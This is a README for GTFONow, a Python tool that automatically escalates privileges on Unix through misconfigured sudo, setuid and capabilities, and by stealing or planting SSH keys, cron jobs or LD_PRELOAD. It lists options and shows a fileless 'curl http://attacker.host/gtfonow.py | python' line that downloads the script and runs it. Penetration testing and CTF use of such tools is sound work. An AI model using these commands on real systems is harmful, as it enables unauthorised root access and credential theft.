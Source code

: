 # GTFONow

Automatic privilege escalation for misconfigured capabilities, sudo config and setuid/setguid binaries.

## Features

| Feature                                                                                | Implemented        |
| -------------------------------------------------------------------------------------- | ------------------ |
| Automatically exploit misconfigured sudo permissions.                                  | :heavy_check_mark: |
| Automatically exploit misconfigured suid, sgid permissions.                            | :heavy_check_mark: |
| Automatically exploit misconfigured capabilities.                                      | :heavy_check_mark: |
| Automatically convert arbitrary file read primitive into shell by stealing SSH keys.   | :heavy_check_mark: |
| Automatically convert arbitrary file write primitive into shell by dropping SSH keys.  | :heavy_check_mark: |
| Automatically convert arbitrary file write primitive into shell by writing to cron.    | :heavy_check_mark: |
| Automatically convert arbitrary file write primitive into shell using LD_PRELOAD.      | :heavy_check_mark: |
| Single file, easy to run fileless with `curl http://attackerhost/gtfonow.py \| python` | :heavy_check_mark: |
| Interactionless mode. For environments where stdin is not controllable.                | Todo               |

## Compatibility

By design GTFONow is a backwards compatible, stdlib only python script, meaning it should work on any variant of Unix if Python is installed.

| Platform                               | Supports           |
| -------------------------------------- | ------------------ |
| Python2.\*                             | :heavy_check_mark: |
| Python3.\*                             | :heavy_check_mark: |
| No 3rd party dependencies              | :heavy_check_mark: |
| Any Unix Variant (Linux, MacOS,\*Nix)  | :heavy_check_mark: |
| Any architecture eg (X86/ARM64/X86-64) | :heavy_check_mark: |
| Systems without Python installed       | Todo               |

## Usage

To use `GTFONow`, simply run the script from your command line. The basic syntax is as follows:

```bash
python gtfo_now.py [OPTIONS]
```

It can also be run by piping the out put of curl:

```bash
curl http://attacker.host/gtfonow.py | python
```

### Options

Here are the options you can use with `GTFONow`:

- `--level`: Sets the level of checks to perform. You can choose between:

  - `1` (default) for a quick scan.
  - `2` for a more thorough scan.
  - Example: `python gtfonow.py --level 2`

- `--risk`: Specifies the risk level of the exploit to perform. The options are:

  - `1` (default) for safe operations.
  - `2` for more aggressive operations, primarily for use in CTFs, if using on real engagements, ensure you understand what this is doing.
  - Example: `python gtfonow.py --risk 2`

- `--sudo_password`: Enables sudo_password mode, offering more privilege escalation options if you know the sudo password.

  - This option does not require a value. You will be prompted to enter the sudo password via stdin.
  - Example: `python gtfonow.py --sudo_password`

- `--command`: Issues a single command instead of spawning an interactive shell. This is mainly for debugging purposes.

  - Example: `python gtfonow.py --command 'ls -la'`

- `-v`, `--verbose`: Enables verbose output.
  - Example: `python gtfonow.py --verbose`

### Examples

Here are some example commands to get you started:

1. Perform a quick scan:

   python gtfonow.py

2. Perform a thorough scan with a higher risk level:

   python gtfonow.py --level 2 --risk 2

## Usage Examples

### Default Mode - Scan All

[![asciicast](https://asciinema.org/a/CyEH3GyAFyWtIVjngWpa0hDBk.svg)](https://asciinema.org/a/CyEH3GyAFyWtIVjngWpa0hDBk)

### Capability Escalation

[![asciicast](https://asciinema.org/a/nmrMirrKNRrb7XHhVRYD66tWa.svg)](https://asciinema.org/a/nmrMirrKNRrb7XHhVRYD66tWa)

### Sudo Escalation and Verbose Mode

[![asciicast](https://asciinema.org/a/HdpWGxGAIAMahoJD6eoB6pqNq.svg)](https://asciinema.org/a/HdpWGxGAIAMahoJD6eoB6pqNq)

## Credits

- Payloads thanks to [GTFOBins](https://gtfobins.github.io/).
